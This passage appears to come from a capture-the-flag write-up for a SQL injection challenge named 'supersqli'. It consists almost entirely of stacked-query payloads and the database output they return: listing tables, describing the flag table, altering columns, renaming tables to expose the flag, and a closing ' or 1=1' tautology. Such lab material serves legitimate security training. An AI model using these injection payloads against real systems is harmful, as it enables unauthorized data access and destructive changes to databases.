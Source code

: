 
>1';show tables;#

```
array(1) {
[0]=>
array(2) {
["id"]=>
string(1) "1"
["data"]=>
string(12) "Only red tea"
}
}
array(2) {
[0]=>
array(1) {
["Tables_in_supersqli"]=>
string(16) "1919810931114514"
}
[1]=>
array(1) {
["Tables_in_supersqli"]=>
string(5) "words"
}
}
```

>1';desc `1919810931114514`;#

```
array(1) {
[0]=>
array(2) {
["id"]=>
string(1) "1"
["data"]=>
string(12) "Only red tea"
}
}
array(1) {
[0]=>
array(6) {
["Field"]=>
string(4) "flag"
["Type"]=>
string(4) "text"
["Null"]=>
string(3) "YES"
["Key"]=>
string(0) ""
["Default"]=>
NULL
["Extra"]=>
string(0) ""
}
}
```

>1';ALTER table `1919810931114514` add column id int;#

增加列


>1';rename table `words` to `wordback`;rename table `1919810931114514` to words;#


>1' or 1=1;#